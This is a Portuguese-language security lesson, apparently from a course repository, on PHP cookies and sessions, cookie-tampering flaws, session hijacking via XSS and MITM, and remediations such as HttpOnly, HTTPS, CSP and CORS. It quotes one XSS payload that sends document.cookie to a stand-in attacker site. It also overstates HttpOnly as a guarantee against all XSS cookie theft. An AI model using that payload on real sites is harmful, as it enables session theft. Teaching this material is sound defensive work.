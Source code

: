 # Cookie e Sessões

## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles são muito úteis uma vez que o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistentes. Se dependêssemos apenas das conexões HTTP, seria impossível, por exemplo, usar um carrinho de compras, pois ao trocar para a página de compra as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_, no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente, como volume do _player_ de música, cor do fundo do site etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito em PHP:
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar à sessão (mas ainda não é uma). Nesse caso, um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de "vida" (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador por exemplo.

## Sessões

Agora, vamos ao que, no momento, mais nos interessa. **Os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É devido às sessões que é possível logar automaticamente em redes sociais - sem precisar entrar com suas credenciais - por muito tempo. Quando o usuário conecta-se, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa (e, portanto, não é preciso entrar com usuário e senha novamente). A maioria dos sites que implementam esse recurso estabelecem uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP:
```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão, o _cookie_ não existe, então o site manda o _browser_ salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o _browser_ mudar o _cookie_ para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo (de `admin=0` para `admin=1`) para se tornar administrador do site, burlando todo o "sistema de segurança".

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid` - um _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_ para ter acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** (Sequestro de Sessão).

Não há como evitar que alguém com acesso físico ao seu computador (com o navegador aberto na página) obtenha sua sessão, mas se isso ocorreu ele já tem muito mais "poder" sobre seus dados e sessões.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**). O segundo ataque caracteriza-se, basicamente, por haver um atacante entrando no meio de uma conexão não encriptada (HTTP) e lendo todo o tráfego entre a vítima e o site, incluindo os _cookies_ enviados e a sessão. Já o primeiro ataque resume-se no atacante injetar código na página de alguma forma. Esse código injetado pode, em certos casos, ler, modificar e até enviar o conteúdo dos _cookies_ armazenados para algum outro servidor.
([Ler mais sobre XSS](XSS.md))

#### Exemplo de Session Hijacking por meio de XSS

```html
<script type="text/javascript">
    new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um _script_ no site dele para salvar o _cookie_ que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.


## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](Protocolo_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, logo uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de código Javascript, seja ele legítimo (da página original) ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante (ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS](XSS.md)

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
